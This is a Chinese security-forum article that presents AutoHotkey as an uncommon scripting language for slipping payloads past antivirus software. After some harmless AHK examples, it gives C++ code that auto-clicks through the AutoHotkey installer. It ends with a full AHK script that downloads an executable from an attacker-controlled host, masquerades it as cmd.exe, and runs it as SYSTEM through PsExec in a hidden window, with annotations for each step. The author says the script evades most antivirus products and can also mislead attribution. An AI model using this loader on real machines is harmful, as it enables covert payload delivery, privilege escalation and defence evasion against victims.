

# 另辟蹊径的bypass方式-先知社区

> **来源**: https://xz.aliyun.com/news/16308  
> **文章ID**: 16308

---

# 一·前言

鄙人写下本文目的是提供一种新的免杀的思想，或可以用来过父？或可用来提权？或可用来绕过杀软，等等，本文以AutoHotkey为例，具体讲解下这种**另辟蹊径的免杀方式。**

# 二·思路

利用非常罕见的，几乎不会被用来执行payload的"编程语言"来实现攻击，达到绕过防御的效果，有时也可以用来欺骗溯源，实现这种思路的难点有：如何安装所需要的环境，如何选择合适的（即小又出乎意料）编译器，如何编写新语言的代码。

# 三·AutoHotkey

官网：[链接](https://www.autohotkey.com/)


### 什么是 AutoHotkey？

**AutoHotkey (AHK)** 是一个强大且轻量级的开源脚本工具，主要用于 **Windows 自动化**。它允许用户通过简单的脚本语言创建快捷键、自动化任务、操作窗口和程序等，极大地提高了工作效率。

**主要功能：**

1. **创建快捷键和热键**：快速执行脚本操作。
2. **自动化任务**：模拟键盘输入、鼠标点击等操作。
3. **窗口和进程管理**：控制窗口的大小、位置、状态等。
4. **字符串替换**：快速输入预定义的文本（如自动纠错或代码片段）。
5. **任务流控制**：通过逻辑判断，实现复杂的任务自动化。
6. **跨应用程序操作**：与不同的软件无缝协作。

---

### AutoHotkey 脚本语言简介

AutoHotkey 的脚本语言以简洁易学为特点，即使没有编程经验的用户也可以快速上手。以下是 AutoHotkey 语言的一些基本特点和结构：

#### 1. **基本语法**

* 脚本文件扩展名是`.ahk`。
* **变量** 无需声明即可使用，自动根据上下文推断类型。
* **热键定义** 是 AutoHotkey 的核心，语法简单，类似于`快捷键::动作`的格式。
* 支持函数、循环、条件判断等常见编程结构。

#### 2. **主要元素**

* **热键**：绑定按键（键盘或鼠标）到特定动作。
* **热字符串**：输入特定字符串后自动替换为预设的文本或触发动作。
* **函数与表达式**：实现更复杂的任务逻辑。
* **窗口控制**：管理窗口状态、内容和交互。

---

### AutoHotkey 脚本示例

以下是几个常见的 AutoHotkey 脚本例子：

---

#### 示例 1：简单的快捷键

定义一个快捷键，按下`Ctrl + Shift + C`后弹出消息框：

```
^+c::  ; ^ 表示 Ctrl，+ 表示 Shift
MsgBox, 你好，这是一个快捷键！ ; 弹出消息框
return
```

---

#### 示例 2：打开特定程序

按下`F1`键后打开计算器：

```
F1::  ; 定义 F1 键触发的动作
Run, calc.exe  ; 打开 Windows 自带的计算器
return
```

---

#### 示例 3：自动化任务（模拟键盘输入）

按下`F2`键后，自动输入一段文字：

```
F2::
Send, Hello, this is an AutoHotkey script! ; 模拟输入
return
```

---

#### 示例 4：窗口操作

按下`Ctrl + Alt + M`键后，最小化当前窗口：

```
^!m::  ; Ctrl + Alt + M
WinMinimize, A  ; 最小化当前窗口 (A 表示活动窗口)
return
```

---

#### 示例 5：热字符串

输入`btw`后，自动替换为 "by the way"：

```
::btw::by the way  ; 定义热字符串
```

---

#### 示例 6：屏幕坐标的鼠标点击

按下`F3`键后，在屏幕坐标`(500, 500)`

位置点击鼠标左键：

```
F3::
Click, 500, 500  ; 模拟鼠标点击屏幕上的 (500, 500)
return
```

---

#### 示例 7：条件判断

根据当前时间显示不同的消息框：

```
F4::
CurrentHour := A_Hour  ; 获取当前小时（24小时制）
if (CurrentHour < 12)
    MsgBox, 现在是上午！
else
    MsgBox, 现在是下午！
return
```

---

#### 示例 8：循环操作

每隔 5 秒按一次 F5：

```
F5::
Loop  ; 无限循环
{
    Send, {F5}  ; 模拟按下 F5 键
    Sleep, 5000  ; 等待 5 秒
}
return
```

---

# 四·安装问题

我们从官网下载安装包，发现安装界面如下（v2版本）



这让我们有有机可乘，因为默认点击位置在"Intsall" button上，于是乎我们有了以下两种方案，分别为按下enter和模拟鼠标点击Install，想更高级的模拟鼠标键盘操作文章可以点进我的主页查看，下附常见函数模拟代码及注解：

run当前目录下的`AutoHotkey_2.0.18_setup.exe`，然后等待 3 秒，模拟按下回车键（Enter），释放回车键，重复 8 次。

```
#include <iostream>
#include <windows.h>  // 包含 Windows API 头文件

using namespace std;

// 模拟按键的函数
void SimulateEnterKey() {
    // 模拟按下 Enter 键
    keybd_event(VK_RETURN, 0, 0, 0); // VK_RETURN 是 Enter 键的虚拟键码
    Sleep(100);                      // 保持按下状态 100 毫秒
    // 模拟释放 Enter 键
    keybd_event(VK_RETURN, 0, KEYEVENTF_KEYUP, 0);
}

int main() {
    // 获取当前目录
    char currentDirectory[MAX_PATH];
    GetCurrentDirectoryA(MAX_PATH, currentDirectory); // 获取当前目录路径

    // 构造完整的 AutoHotkey 安装程序路径
    string exePath = string(currentDirectory) + "\\AutoHotkey_2.0.18_setup.exe";

    // 输出当前操作的文件路径，用于调试
    cout << "Running: " << exePath << endl;

    // 使用 ShellExecute 运行指定的安装程序
    HINSTANCE result = ShellExecuteA(
        NULL,          // 无窗口句柄
        "open",        // 动作类型：打开
        exePath.c_str(), // 程序路径
        NULL,          // 无参数
        NULL,          // 默认工作目录
        SW_SHOWNORMAL  // 窗口显示方式：正常显示
    );

    // 检查运行是否成功
    if ((INT_PTR)result <= 32) {
        cerr << "Failed to run the executable. Error code: " << (INT_PTR)result << endl;
        return 1; // 如果运行失败，退出程序
    }

    // 循环 8 次
    for (int i = 0; i < 8; ++i) {
        cout << "Iteration: " << (i + 1) << endl;

        // 等待 3 秒
        Sleep(3000);

        // 模拟按下并释放 Enter 键
        SimulateEnterKey();
    }

    // 完成任务，程序退出
    cout << "Done!" << endl;
    return 0;
}
```

---

### **代码分解与注解**

#### **1. 包含头文件**

```
#include <iostream>
#include <windows.h>
```

* `iostream`: 用于标准输入输出，如`cout`和`cerr`。
* `windows.h`: 包含 Windows API 的核心功能，例如`ShellExecuteA`和`keybd_event`。

---

#### **2. 模拟按键的函数**

```
void SimulateEnterKey() {
    keybd_event(VK_RETURN, 0, 0, 0); // 模拟按下 Enter 键
    Sleep(100);                      // 保持按下状态 100 毫秒
    keybd_event(VK_RETURN, 0, KEYEVENTF_KEYUP, 0); // 模拟释放 Enter 键
}
```

* `VK_RETURN`: 表示 Enter 键的虚拟键码。
* `keybd_event`: 用于模拟键盘输入。
  + 参数`0`: 表示未使用的扫描码。
  + 参数`KEYEVENTF_KEYUP`: 表示释放按键。
* `Sleep(100)`: 保持按下状态，延迟 100 毫秒。

---

#### **3. 获取当前目录**

```
char currentDirectory[MAX_PATH];
GetCurrentDirectoryA(MAX_PATH, currentDirectory);
```

* `GetCurrentDirectoryA`: 获取当前工作目录（ANSI 版本）。
* `MAX_PATH`: 定义了 Windows 中的最大路径长度（260 个字符）。

---

#### **4. 构造程序路径**

```
string exePath = string(currentDirectory) + "\\AutoHotkey_2.0.18_setup.exe";
```

* 将当前目录与`AutoHotkey_2.0.18_setup.exe`组合成完整路径。
* 使用`\\`是为了在 Windows 文件路径中转义`\`。

---

#### **5. 使用 ShellExecuteA 运行程序**

```
HINSTANCE result = ShellExecuteA(
    NULL,          // 无窗口句柄
    "open",        // 动作类型：打开
    exePath.c_str(), // 程序路径
    NULL,          // 无参数
    NULL,          // 默认工作目录
    SW_SHOWNORMAL  // 窗口显示方式：正常显示
);
```

* `ShellExecuteA`: 用于执行指定程序或文件。
  + 参数`"open"`: 表示打开目标文件。
  + 参数`exePath.c_str()`: 目标文件的路径。
  + 参数`SW_SHOWNORMAL`: 正常显示窗口。
* **返回值**：
  + 如果返回值小于等于 32，则说明调用失败（错误代码可以参考 Windows API 文档）。

---

#### **6. 循环操作**

```
for (int i = 0; i < 8; ++i) {
    cout << "Iteration: " << (i + 1) << endl;
    Sleep(3000);  // 等待 3 秒
    SimulateEnterKey();  // 模拟按下并释放 Enter 键
}
```

* 循环 8 次，每次间隔 3 秒，模拟按下并释放 Enter 键。
* `Sleep(3000)`: 让程序暂停 3000 毫秒（3 秒）。

---

#### **7. 检查执行是否成功**

```
if ((INT_PTR)result <= 32) {
    cerr << "Failed to run the executable. Error code: " << (INT_PTR)result << endl;
    return 1;
}
```

* 如果`ShellExecuteA`返回值小于等于 32，则打印错误信息并退出程序。

---

# 五·ahk代码

利用ahk执行下载和提权运行（system）绕过大部分杀软（实测

```
cmdUrl := "http://192.168.21.1/u.exe"            ; cmd.exe 的文件下载地址
psexecUrl := "https://download.sysinternals.com/files/PSTools.zip" ; psexec.exe 的文件下载地址（官方 Sysinternals PSTools）
saveCmdPath := A_ScriptDir "\cmd.exe"              ; 保存 cmd.exe 的路径
savePSToolsPath := A_ScriptDir "\PSTools.zip"      ; 保存 PSTools 压缩包路径
psexecPath := A_ScriptDir "\PSTools\psexec.exe"    ; 解压后的 psexec.exe 路径

if URLDownloadToFile(cmdUrl, saveCmdPath) {
    MsgBox "cmd.exe 文件已成功下载至: " saveCmdPath
} else {
    MsgBox "cmd.exe 下载失败！请检查 URL 或网络连接。"
    ExitApp()
}


if URLDownloadToFile(psexecUrl, savePSToolsPath) {
    MsgBox "PSTools.zip 文件已成功下载至: " savePSToolsPath
} else {
    MsgBox "PSTools.zip 下载失败！请检查 URL 或网络连接。"
    ExitApp()
}


if !FileExist(psexecPath) { ; 检查 psexec.exe 是否已解压
    if ExtractZipWithExplorer(savePSToolsPath, A_ScriptDir "\PSTools") {
        MsgBox "psexec.exe 已成功解压至: " psexecPath
    } else {
        MsgBox "解压失败！请检查解压路径或文件权限。"
        ExitApp()
    }
}


if !FileExist(psexecPath) {
    MsgBox "未找到 psexec.exe，请手动检查解压是否正确。"
    ExitApp()
}


RunAsSystem(saveCmdPath)


MsgBox "cmd.exe 已以 SYSTEM 权限运行。"
ExitApp()


URLDownloadToFile(url, savePath) {

    hModule := DllCall("LoadLibrary", "Str", "urlmon", "Ptr")
    result := DllCall("urlmon\URLDownloadToFileW", "Ptr", 0, "Str", url, "Str", savePath, "UInt", 0, "Ptr", 0)
    DllCall("FreeLibrary", "Ptr", hModule)
    return result == 0
}


ExtractZipWithExplorer(zipPath, extractTo) {

    if !FileExist(zipPath) {
        MsgBox "ZIP 文件不存在: " zipPath
        return false
    }
    if !FileExist(extractTo) ; 如果目标解压路径不存在，则创建它
        DirCreate(extractTo)


    ComObj := ComObject("Shell.Application")
    ZipFolder := ComObj.NameSpace(zipPath)
    TargetFolder := ComObj.NameSpace(extractTo)

    if !ZipFolder || !TargetFolder {
        MsgBox "解压失败：无法加载 ZIP 文件或目标路径。"
        return false
    }


    TargetFolder.CopyHere(ZipFolder.Items(), 16) ; 使用 Flag 16 隐藏进度窗口
    Sleep 5000 ; 等待文件解压完成（根据文件大小调整时间）

    return true
}


RunAsSystem(filePath) {
    RunWait(Format('"{1}" -s "{2}"', psexecPath, filePath), A_ScriptDir, "Hide")
}
```

### **脚本分解与注解**

#### **1. 定义下载地址和保存路径**

```
cmdUrl := "http://192.168.21.1/u.exe"            ; cmd.exe 的文件下载地址
psexecUrl := "https://download.sysinternals.com/files/PSTools.zip" ; psexec.exe 的文件下载地址（官方 Sysinternals PSTools）
saveCmdPath := A_ScriptDir "\cmd.exe"              ; 保存 cmd.exe 的路径
savePSToolsPath := A_ScriptDir "\PSTools.zip"      ; 保存 PSTools 压缩包路径
psexecPath := A_ScriptDir "\PSTools\psexec.exe"    ; 解压后的 psexec.exe 路径
```

* **cmdUrl**: 指定`cmd.exe`的下载地址（脚本示例中是一个示例的局域网地址）。
* **psexecUrl**: 指定`PSTools.zip`的下载地址（这是来自 Sysinternals 的官方工具包）。
* **saveCmdPath**: 指定`cmd.exe`文件的保存路径，存放在当前脚本目录下。
* **savePSToolsPath**: 指定下载的`PSTools.zip`文件的保存路径。
* **psexecPath**: 定义解压后的`psexec.exe`的路径。

`A_ScriptDir`是 AutoHotkey 的内置变量，表示当前脚本所在的目录。

---

#### **2. 下载 cmd.exe**

```
if URLDownloadToFile(cmdUrl, saveCmdPath) {
    MsgBox "cmd.exe 文件已成功下载至: " saveCmdPath
} else {
    MsgBox "cmd.exe 下载失败！请检查 URL 或网络连接。"
    ExitApp()
}
```

* `**URLDownloadToFile**`**函数**: 调用 Windows API 实现文件的下载。
  + 参数`cmdUrl`：下载文件的 URL。
  + 参数`saveCmdPath`：下载后文件保存的路径。
* 如果下载成功，显示提示消息框`cmd.exe 文件已成功下载至: " saveCmdPath"`。
* 如果下载失败，显示错误消息并退出脚本。

---

#### **3. 下载 PSTools.zip**

```
if URLDownloadToFile(psexecUrl, savePSToolsPath) {
    MsgBox "PSTools.zip 文件已成功下载至: " savePSToolsPath
} else {
    MsgBox "PSTools.zip 下载失败！请检查 URL 或网络连接。"
    ExitApp()
}
```

* 功能和逻辑与下载`cmd.exe`类似，只是下载的目标文件换成了`PSTools.zip`。
* 下载失败时，也会弹出错误提示并终止脚本。

---

#### **4. 解压 PSTools.zip**

```
if !FileExist(psexecPath) { ; 检查 psexec.exe 是否已解压
    if ExtractZipWithExplorer(savePSToolsPath, A_ScriptDir "\PSTools") {
        MsgBox "psexec.exe 已成功解压至: " psexecPath
    } else {
        MsgBox "解压失败！请检查解压路径或文件权限。"
        ExitApp()
    }
}
```

* **FileExist(psexecPath)**: 检查`psexec.exe`是否已经存在。如果存在，跳过解压步骤。
* **ExtractZipWithExplorer**:
  + 调用脚本中定义的`ExtractZipWithExplorer`函数，利用 Windows Shell 的`Shell.Application`对象解压 ZIP 文件。
  + 如果解压成功，显示提示消息。
  + 如果解压失败，显示错误信息并终止脚本。

---

#### **5. 检查解压后的 psexec.exe 是否存在**

```
if !FileExist(psexecPath) {
    MsgBox "未找到 psexec.exe，请手动检查解压是否正确。"
    ExitApp()
}
```

* 如果`psexec.exe`文件不存在，提示错误消息并终止脚本。

---

#### **6. 以 SYSTEM 权限运行 cmd.exe**

```
RunAsSystem(saveCmdPath)
```

* 调用自定义的`RunAsSystem`函数，利用`psexec.exe`工具以 SYSTEM 权限运行`cmd.exe`。

---

#### **7. 脚本完成提示**

```
MsgBox "cmd.exe 已以 SYSTEM 权限运行。"
ExitApp()
```

* 提示任务完成后退出脚本。

---

### **自定义函数部分**

#### **1. 下载文件函数：URLDownloadToFile**

```
URLDownloadToFile(url, savePath) {
    ; 调用 Windows API URLDownloadToFileW 下载文件
    hModule := DllCall("LoadLibrary", "Str", "urlmon", "Ptr")
    result := DllCall("urlmon\URLDownloadToFileW", "Ptr", 0, "Str", url, "Str", savePath, "UInt", 0, "Ptr", 0)
    DllCall("FreeLibrary", "Ptr", hModule)
    return result == 0
}
```

* 使用 Windows API 的`URLDownloadToFileW`方法下载文件。
  + 参数`url`: 文件的 URL。
  + 参数`savePath`: 文件的保存路径。
* `DllCall("LoadLibrary", "Str", "urlmon")`: 加载`urlmon`动态链接库（DLL），这是 Windows 系统自带的库，用于网络功能。
* `return result == 0`: 如果下载成功，返回`true`。

---

#### **2. 解压 ZIP 文件函数：ExtractZipWithExplorer**

```
ExtractZipWithExplorer(zipPath, extractTo) {
    ; 确保 ZIP 文件和目标路径有效
    if !FileExist(zipPath) {
        MsgBox "ZIP 文件不存在: " zipPath
        return false
    }
    if !FileExist(extractTo) ; 如果目标解压路径不存在，则创建它
        DirCreate(extractTo)

    ; 使用 Windows Shell.Application 调用解压 ZIP 文件
    ComObj := ComObject("Shell.Application")
    ZipFolder := ComObj.NameSpace(zipPath)
    TargetFolder := ComObj.NameSpace(extractTo)

    if !ZipFolder || !TargetFolder {
        MsgBox "解压失败：无法加载 ZIP 文件或目标路径。"
        return false
    }

    ; 执行解压
    TargetFolder.CopyHere(ZipFolder.Items(), 16) ; 使用 Flag 16 隐藏进度窗口
    Sleep 5000 ; 等待文件解压完成（根据文件大小调整时间）

    return true
}
```

* **作用**: 使用 Windows Shell 的`Shell.Application`对象解压 ZIP 文件。
* **逻辑**:
  + 确保 ZIP 文件存在，若目标解压路径不存在，则创建路径。
  + 调用`ComObject("Shell.Application")`加载 ZIP 文件并指定解压目标路径。
  + 执行`CopyHere`操作进行解压。
  + 使用`Sleep`等待解压完成。

---

#### **3. 以 SYSTEM 权限运行文件函数：RunAsSystem**

```
RunAsSystem(filePath) {
    ; 使用 psexec.exe 工具以 SYSTEM 权限运行
    RunWait(Format('"{1}" -s "{2}"', psexecPath, filePath), A_ScriptDir, "Hide")
}
```

* **作用**: 使用`psexec.exe`工具以 SYSTEM 权限运行指定文件。
* **参数**:
  + `filePath`: 要以 SYSTEM 权限运行的文件路径。
* **逻辑**:
  + `RunWait`: 启动一个进程并等待其完成。
  + 使用`-s`参数调用`psexec.exe`，以 SYSTEM 权限运行指定文件。
  + `Format`函数构造命令行字符串。
